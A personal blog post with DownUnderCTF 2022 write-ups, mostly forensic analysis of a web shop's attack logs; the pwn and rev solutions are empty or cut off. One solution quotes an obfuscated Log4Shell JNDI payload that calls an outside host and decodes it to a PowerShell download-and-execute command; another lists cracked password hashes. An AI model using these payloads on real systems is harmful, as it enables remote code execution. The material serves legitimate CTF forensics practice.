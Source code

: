 ```yaml
---
layout: post
title: DownUnderCTF 2022
---
```


- [https://ctftime.org/event/1625](https://ctftime.org/event/1625)
- Sep 23 to Sep 25
- Played with wackers
- Ranking: 392/1407 with 750 points

# My Solves/Writeups

## Pwn

| Challenge Name | Difficulty | Points | Writeup |
|---|---|---|---|
| pwn/babyp(y)wn | beginner | 50 | [jump](#pwnbabypywn) |

## Rev

| Challenge Name | Difficulty | Points | Writeup |
|---|---|---|---|
| rev/source-provided | beginner | 50 | [jump](#revsource-provided) |

## DFIR

| Challenge Name | Difficulty | Points | Writeup |
|---|---|---|---|
| dfir/Shop-Knock-Knock-Knock | easy | 50 | [jump](#dfirshop-knock-knock-knock) |
| dfir/Shop-Logging-for-what? | easy | 50 | [jump](#dfirshop-logging-for-what) |
| dfir/Shop-I'm-just-looking! | easy | 50 | [jump](#dfirshop-im-just-looking) |
| dfir/Shop-Oi!-Get-out-of-there! | medium | 50 | [jump](#dfirshop-oi-get-out-of-there) |

## Writeups
### pwn/babypywn

Python is memory safe, right?

Author: joseph#8210

Attachments: [babypywn.py](https://play.duc.tf/files/75063ab9b30ed274dd69906496ce0c15/babypywn.py?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjozN30.YzHRZQ.fB3_7LN6wR9a1LOd2JRyUidbaC4)

### Solution

Downloading the python file and looking at it, I recognized this as a simple 

### rev/source-provided

In this reversing challenge, source is provided.

Author: joseph#8210

Attachments: [chall](https://play.duc.tf/files/77264a4412dde0c22c878269e1fc9c11/chall?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo1N30.YzHR2Q.ocJkP7Re57zZU4nVaGuD10gK4ec)
[chall.S](https://play.duc.tf/files/2c136d630abb9d5d25109c2b6424cc5e/chall.S?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo1OH0.YzHSag.bHrtRmikcYkKQA7n4ZRreyj3UT8)

### Solution



### dfir/shop-knock-knock-knock

Looks like there's been a bruteforce/password spray attempt against the website!

What's the contact email for the ISP of the attacker's IP?

Flag format: Email address, case insensitive

Author: Cake#4096

Attachments: [DownUnderShop.JSON](https://play.duc.tf/files/93b83fc0ff46c9bd182b8afc39dd320e/DownUnderShop.JSON?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo3MX0.YzMa_w.g9yOj7tPU6Oz6srTZeZB8Op2gOI)

### Solution

```Although this had the most solves, it was the weidest/ hardest one for me.```

Looking at the file, we see that there are many different payloads sent to the web server that are of form jndi:smth// 

Searching up on google for jndi it returns results of the log4shell attack that happened last year

```The ip can also be found from looking at the password change attempts```

We know that these attacks are hacker attacks, so looking at the ip associated with the attack payload we can find the ISP of the attacker ip by running whois on the ip.

After several results of emails we get the answer

Flag: ```abuse@telstra.net```

### dfir/shop-logging-for-what

We implemented a basic IPS to help protect our site from new attacks.

Somehow, a newer more sophisticated version of a regularly observed attack was successfully executed against the website.

What is the name of the script that was run?

Flag format: Name of the script that was run, case sensitive.

Author: Conletz#5420

Attachments: [DownUnderShop.JSON](https://play.duc.tf/files/93b83fc0ff46c9bd182b8afc39dd320e/DownUnderShop.JSON?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo3MX0.YzMa_w.g9yOj7tPU6Oz6srTZeZB8Op2gOI)

### Solution

Knowing from the previous challenge that the attacks were log4shell attacks in the form of jndi:smth, we are probably looking for a version of the payload that can bypass a filter.

Scrolling through the file, we come across a payload that is also in the useragent section but looks obfuscated to bypass the filter.

```\${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://41.108.181.141:5552/Basic/Command/Base64/cG93ZXJzaGVsbC5le
GUgLWV4ZWMgYnlwYXNzIC1DICJJRVggKE5ldy1PYmplY3QgTmV0LldlYkNsaWVudCkuRG93bmxvYWRTdHJpbmcoJ2h0dHBzOi8vZG93bnVuZGVyY3RmLmNvbS9wVENOcDVwNkxQMGQ3cUE3N3l2YjRTSGY0MCcpOyI=}```

The end of this payload looks like base64 so decrypt the base64

```powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://downunderctf.com/pTCNp5p6LP0d7qA77yvb4SHf40');"```

This part felt kinda guessy to me but the answer for the script run was just the part after the link

```Flag: pTCNp5p6LP0d7qA77yvb4SHf40```

### dfir/shop-im-just-looking

We've seen some vulnerability scanning activity against us!

What was the name of the tool used?

Flag format: Name of the tool used, case insensitive

Author: Cake#4096

Attachments: [DownUnderShop.JSON](https://play.duc.tf/files/93b83fc0ff46c9bd182b8afc39dd320e/DownUnderShop.JSON?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo3MX0.YzMa_w.g9yOj7tPU6Oz6srTZeZB8Op2gOI)

### Solution

```This challenge felt even more guessy to me as I found the answer by trying to do the password challenge instead.```

Searching through the json file during the password challenge of this file, I was looking for some wordlist that I could maybe use to crack the hashes.

Grepping txt from the json file, I got the result of nuclei.txt.

I searched up nuclei.txt on google thinking I could download this wordlist and use it to crack the hashes but when I searched it up, I instead find a vulnerability scanner on github called nuclei. [nuclei](https://github.com/projectdiscovery/nuclei)

This challenge description was asking for a vulnerability scanner, so nuclei seemed fit and it ended up being the flag.

```Flag: nuclei```

### dfir/shop-oi-get-out-of-there

Someone was able to successfully break into the admin account!

Do you know what the old password was?

Flag format: The password, case insensitive

Author: Cake#4096

Attachments: [DownUnderShop.JSON](https://play.duc.tf/files/93b83fc0ff46c9bd182b8afc39dd320e/DownUnderShop.JSON?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo3MX0.YzMa_w.g9yOj7tPU6Oz6srTZeZB8Op2gOI)

### Solution

After searching through the files on the previous challenges, I realized that there were these weird links pointing to /changepassword and had base64 text after the ref query parameter.

Using grep to search for "ref" and grabbing all the base64 text and decoding the base64 returns some password-like text.

```
b506fb0cabb60e9f1132daa72df4d567:6d7c5b3e796d833b3fdd40f4ce57facd
2ac9cb7dc02b3c0083eb70898e549b63:6d7c5b3e796d833b3fdd40f4ce57facd
3dc919de186d1a8ee62fff92d80839f7:6d7c5b3e796d833b3fdd40f4ce57facd
7a581ac4d8cb3bfc596fce9afb115fd2:6d7c5b3e796d833b3fdd40f4ce57facd
```

At first I thought this was a LM:NTLM hash because of the ldap references in the json file but trying to crack using hashcat/ john didn't work.

After, I tried plugging the hashes into hashes.com (cracked website for cracking passwords), and it cracked all of the passwords.

```
2ac9cb7dc02b3c0083eb70898e549b63:Password1
3dc919de186d1a8ee62fff92d80839f7:ozzieozzieozzie
7a581ac4d8cb3bfc596fce9afb115fd2:downunder2
b506fb0cabb60e9f1132daa72df4d567:crackstation
```

Submitting each of the passwords, one of them worked.

```Flag: ozzieozzieozzie```
